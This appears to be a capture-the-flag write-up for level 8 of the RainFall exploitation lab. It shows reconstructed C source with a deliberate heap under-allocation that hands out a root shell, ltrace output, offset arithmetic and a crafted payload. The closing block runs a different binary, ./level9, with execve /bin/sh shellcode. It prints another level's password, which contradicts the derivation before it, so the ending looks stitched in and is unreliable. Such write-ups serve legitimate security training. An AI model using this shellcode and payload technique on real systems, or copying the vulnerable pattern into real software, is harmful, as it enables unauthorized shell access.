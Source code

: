 # Level 8

## Answer
Our C source code generates the same assembly code as the original binary. Compile it as follows:
```
gcc -fno-stack-protector source.c
```

Let's take a look at the source code:
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

struct s_user {
    int id;
    char login[28];
    int is_auth;
};

int *service;
struct s_user *user;

int main()
{
    while (1)
    {
        printf("%p, %p \n", user, service);

        char buf[128];

        if (!(fgets(buf, 128, stdin)))
            break;

        if (!(strncmp(buf, "auth ", 5)))
        {
            user = malloc(4);
            user->id = 0;

            if (strlen(buf + 5) <= 30)
                strcpy(user, buf + 5);
        }

        if (!(strncmp(buf, "reset", 5)))
            free(user);

        if (!(strncmp(buf, "service", 6)))
            service = strdup(buf + 7);

        if (!(strncmp(buf, "login", 5)))
        {
            if (user->is_auth)
                system("/bin/sh");
            else
                fwrite("Password:\n", 1, 10, stdout);
        }
    }
    return 0;
}
```

Let's focus on the `main` function. It reads input using the `fgets` function, which is known to be safe due to its mechanism to limit the number of bytes read. Different commands are then executed based on the input:
- `auth`: Allocates a user structure and copies the input into it.
- `reset`: Frees the user structure.
- `service`: Copies the input into the service buffer.
- `login`: Checks if the user is authenticated and, if so, grants shell access.

We notice that the `auth` doesn't allocate enough memory for the user structure, which is 36 bytes long (4 bytes for the id, 28 bytes for the login and 4 bytes for the `is_auth` field). This means that, with the `service` command, we can write to the user structure, since it will be allocated within the same memory space, and overwrite the `is_auth` field to gain shell access.

Here's the following steps to perform the exploit:
1. Use `auth` to allocate the user structure.
2. Use `service` to write in the user structure and overwrite `is_auth`
3. Execute `login` to verify authentication and obtain a shell.

We'll use `ltrace` to understand the memory allocations and calculate the size needed to overwrite `is_auth`:
```bash
$ ltrace ./level8
[...]
fgets(auth
"auth \n", 128, 0xb7fd1ac0) = 0xbffff6d0
malloc(4) = 0x0804a008
strcpy(0x0804a008, "\n") = 0x0804a008 # user
[...]
fgets(service
"service\n", 128, 0xb7fd1ac0) = 0xbffff6d0
strdup("\n") = 0x0804a018 # service
[...]
level8@RainFall:~$
```

We notice that the the user structure is allocated at `0x0804a008` for only 4 bytes, which is not enough to store the whole structure that is 36 bytes long. We also notice that the service buffer is allocated at `0x0804a018` (so within the same memory space as the user structure, since it is located between `0x0804a008` and `0x0804a028`). Futhermore we notice that the `is_auth` field is located at the 32nd byte of the user structure.  
So let's simply calculate the offset needed to reach `is_auth`:
```
0x0804a018 - 0x0804a008 = 0x10 (16 in decimal)
32 - 16 = 16 bytes of padding
```

We substract 32 from 16 because the `service` buffer was already allocated 16 bytes after the user structure. So we'll have to write 16 bytes of padding to reach `is_auth`. Anything written after that will overwrite `is_auth`.

Let's craft our payload:
```
"auth "
"service" + padding
"login"

"auth \n" + "service" + "A"*16 + "\n" + "login\n"
```

The `\n` are needed to simulate the user pressing the enter key and it will also serve as the 17th character needed to overwrite `is_auth`.

Let's run our payload:
```bash
level9@RainFall:~$ ./level9 `python -c 'print("\x08\x04\xa0\x10"[::-1] + "\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80" + "A" * 83 + "\x08\x04\xa0\x0c"[::-1])'`
$ cat /home/user/bonus0/.pass
f3f0004b6f364cb5a4147e9ef827fa922a4861408845c26b6971ad770d906728
```

We are now level9! Let's move on to the next level.
